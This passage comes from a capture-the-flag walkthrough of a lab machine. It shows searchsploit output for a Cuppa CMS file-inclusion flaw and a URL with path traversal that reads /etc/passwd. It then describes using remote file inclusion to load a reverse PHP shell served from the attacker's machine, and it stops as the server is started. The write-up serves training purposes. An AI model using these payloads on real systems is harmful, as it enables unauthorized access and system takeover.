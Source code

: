 ![](images/skynet10.png)

I check to see if I can login as milesdyson with either of the 2 passwords we have and neither work.

I check out searchsploit to see if there are any known vulnerabilities for this CMS and there is a file inclusion exploit:

`searchsploit cuppa`

```
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion       | php/webapps/25971.txt
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can use LFI to view files on the system:

```
view-source:http://10.10.38.143/<REDACTED>/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../etc/passwd

Other than root milesdyson is the only user on the system:

milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
```

But more importantly we can use RFI to get a shell on the system. We can point it to a reverse php shell on our system and it will go there and execute the code.

I start up a simple python3 http server on my system:
